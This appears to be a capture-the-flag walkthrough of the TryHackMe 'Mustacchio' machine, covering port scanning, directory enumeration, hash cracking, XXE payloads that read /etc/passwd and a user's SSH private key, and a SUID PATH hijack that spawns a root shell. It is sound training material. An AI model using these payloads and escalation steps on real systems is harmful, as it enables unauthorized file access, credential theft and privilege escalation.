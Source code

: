 ```yaml
---

title: Walkthrough - Mustacchio
published: true
---
```


XXE, Enumeration, PrivEsc, Web, PATH. Boot2Root Machine

[https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.12.244 -vvv``

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- pretty standardish website on port 80 not much to see here by an initial look. nothing in the source codes.

- ``gobuster dir -u http://10.10.12.244/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 100 --no-error``

- our gobuster scan finds us ``/custom/`` that has ``/js/`` which contains a ``users.bak`` file. Downloading that and checking it out we find credentials for admin with a SHA1 hash. Crack with hashcat and rockyou ``hashcat -m 100 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b /usr/share/seclists/Passwords/rockyou.txt``

- port 8765 we have a login page we can use these credentials ``admin:bulldog19``
- the source code on ``home.php`` someone left us a comment ``<!-- Barry, you can now SSH in using your key!-->``
- upon submission we also find the location of another ``.bak``, ``dontforget.bak`` which gives us an xml comment and also submitting the form black gives us an alert telling us to submit an xml code.
- pasting the xml from ``dontforget.bak`` lets us see how the code is working.
- we can alter the code in order to give us system information.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&xxe;</name>
  <author>0xskar</author>
  <com>hacked</com>
</comment> 
```

- since we have a hint that barry can login to the server with his rsa key lets get that to our system

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>0xskar</author>
  <com>hacked</com>
</comment> 
```

- save the rsa to a file and ``ssh2john``. Crack using rockyou and ``john``. and we recieve ``urieljames`` for the credentials.

- login to ssh with the key and pass to get our user flag.

* * * 

## What is the user flag?

![0xskar](/assets/mustacchio02.png)

* * * 

## What is the root flag?

- ``find / -perm -u=s -type f 2>/dev/null`` we find a file with suid set ``home/joe/live_log``
- this is an ELF, lets get it over to our machine and try to check it out in Ghidra.

it has a main function that used ``tail`` to display the nginx logs. we can also see this by running ``strings``

because this function calls just ``tail`` and not its full path we can do a ``path`` exploit

- create path 

```
barry@mustacchio:/var/log$ cd ~
barry@mustacchio:~$ export PATH=$PWD:$PATH
barry@mustacchio:~$ echo $PATH
/home/barry:/var/log:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- create ``tail`` in path

```
barry@mustacchio:~$ vi tail
barry@mustacchio:~$ cat tail
#!/usr/bin/python3
import pty
pty.spawn("/bin/bash")
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ /home/joe/live_log 
root@mustacchio:~# 
```

* * * 

